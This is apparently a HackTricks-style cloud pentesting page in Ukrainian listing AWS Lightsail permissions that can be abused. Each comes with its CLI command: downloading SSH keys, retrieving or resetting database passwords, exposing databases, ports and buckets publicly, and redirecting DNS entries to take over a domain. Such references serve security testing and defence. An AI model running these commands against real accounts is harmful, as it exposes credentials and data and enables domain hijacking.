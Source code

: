# AWS - Lightsail Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Lightsail

Для отримання додаткової інформації про Lightsail перегляньте:

{{#ref}}
../aws-services/aws-lightsail-enum.md
{{#endref}}

> [!WARNING]
> Важливо зазначити, що Lightsail **не використовує IAM ролі, що належать користувачу**, а належать керованому обліковому запису AWS, тому ви не можете зловживати цією службою для підвищення привілеїв. Однак, **чутливі дані**, такі як код, API ключі та інформація про базу даних, можуть бути знайдені в цій службі.

### `lightsail:DownloadDefaultKeyPair`

Ця дозволена дія дозволить вам отримати SSH ключі для доступу до інстансів:
```
aws lightsail download-default-key-pair
```
**Потенційний вплив:** Знайти чутливу інформацію всередині інстансів.

### `lightsail:GetInstanceAccessDetails`

Ця дозволена дія дозволить вам генерувати SSH-ключі для доступу до інстансів:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині інстансів.

### `lightsail:CreateBucketAccessKey`

Ця дозволена дія дозволить вам отримати ключ для доступу до бакету:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію всередині бакету.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ця дозволена дія дозволить вам отримати облікові дані для доступу до бази даних:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Потенційний вплив:** Знайти чутливу інформацію в базі даних.

### `lightsail:UpdateRelationalDatabase`

Ця дозволена дія дозволить вам змінити пароль для доступу до бази даних:
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
Якщо база даних не є публічною, ви також можете зробити її публічною з цими дозволами з
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
**Потенційний вплив:** Знайти чутливу інформацію в базі даних.

### `lightsail:OpenInstancePublicPorts`

Ця дозволяє відкривати порти для Інтернету.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:PutInstancePublicPorts`

Ця дозволяє відкривати порти для Інтернету. Зверніть увагу, що виклик закриє будь-який порт, який не вказано в ньому.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Потенційний вплив:** Доступ до чутливих портів.

### `lightsail:SetResourceAccessForBucket`

Ця дозволяє надати екземплярам доступ до кошика без додаткових облікових даних.
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
**Потенційний вплив:** Потенційний новий доступ до бакетів з чутливою інформацією.

### `lightsail:UpdateBucket`

З цією дозволом зловмисник може надати своєму обліковому запису AWS доступ на читання до бакетів або навіть зробити бакети публічними для всіх:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Потенційний вплив:** Потенційний новий доступ до бакетів з чутливою інформацією.

### `lightsail:UpdateContainerService`

З цими правами зловмисник може надати доступ до приватних ECR з сервісу контейнерів.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Потенційний вплив:** Отримати чутливу інформацію з приватного ECR

### `lightsail:CreateDomainEntry`

Зловмисник з цим дозволом може створити піддомен і вказати його на свою власну IP-адресу (взяття піддомену під контроль), або створити SPF запис, який дозволяє йому підробляти електронні листи з домену, або навіть встановити основний домен на свою власну IP-адресу.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

### `lightsail:UpdateDomainEntry`

Зловмисник з цим дозволом може створити піддомен і вказати його на свою власну IP-адресу (захоплення піддомену), або створити SPF запис, який дозволяє йому підробляти електронні листи з домену, або навіть встановити основний домен на свою власну IP-адресу.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Потенційний вплив:** Захоплення домену

{{#include ../../../banners/hacktricks-training.md}}
